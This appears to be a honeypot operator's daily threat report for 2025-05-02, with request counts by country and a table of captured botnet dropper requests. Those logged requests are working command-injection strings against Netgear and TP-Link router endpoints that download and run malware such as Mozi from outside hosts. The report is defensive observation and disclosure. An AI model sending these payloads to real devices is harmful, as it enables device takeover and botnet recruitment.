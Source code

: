 ```yaml
---
title: "Report: 2025-05-02 "
date: 2025-05-02
desciption: "Report: 2025-05-02" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-02 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 3 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1407 requests were recorded during the day, originating from 6 different countries, with a peak of 371 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| IN               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                   |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 59.92.90.159    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.92.90.159:42184/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                               |
| 104.236.3.45    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                              |
| 199.203.206.147 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://162.240.157.77/spim+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                     |
| 199.203.206.147 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://162.240.157.77/l7vmra;chmod+777+l7vmra;/tmp/l7vmra HTTP/1.1                                                                                                       |
| 45.95.147.209   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1 |
| 24.96.184.50    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://24.96.184.50:39342/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                               |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                          |
|----:|----------------------:|:-----------------------------------------------------------------|
| 241 |                     1 | \x00\x0E\x08\xC4\x00\xCA\xC7\x01\xB2\x87\x92\x00\x00\x00\x00\x00 |
| 242 |                     1 | \x00\x0E8\xC4\x00\xCA\xC7\x01\xB2\x87\x92\x00\x00\x00\x00\x00    |
| 303 |                     1 | pim&ipv=0                                                        |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   371 | US                 |
|  1 |                   307 | NL                 |
|  2 |                   279 | GB                 |
|  3 |                   103 | SC                 |
|  4 |                    80 | HK                 |
|  5 |                    49 | DE                 |
|  6 |                    42 | PL                 |
|  7 |                    18 | FR                 |
|  8 |                    17 | CN                 |
|  9 |                    14 | UA                 |
| 10 |                    13 | IN                 |
| 11 |                    13 | JP                 |
| 12 |                    11 | CA                 |
| 13 |                    11 | ZA                 |
| 14 |                    11 | GH                 |
| 15 |                     7 | AO                 |
| 16 |                     6 | MN                 |
| 17 |                     5 | KR                 |
| 18 |                     5 | IL                 |
| 19 |                     5 | BE                 |
| 20 |                     5 | AZ                 |
| 21 |                     4 | TR                 |
| 22 |                     4 | BG                 |
| 23 |                     3 | VN                 |
| 24 |                     3 | SG                 |
| 25 |                     3 | PT                 |
| 26 |                     2 | RU                 |
| 27 |                     2 | AU                 |
| 28 |                     2 | RO                 |
| 29 |                     2 | IT                 |
| 30 |                     2 | TW                 |
| 31 |                     1 | PA                 |
| 32 |                     1 | IR                 |
| 33 |                     1 | ES                 |
| 34 |                     1 | TH                 |
| 35 |                     1 | CZ                 |
| 36 |                     1 | NZ                 |
| 37 |                     1 | BR                 |
| 38 |                     1 | PK                 |
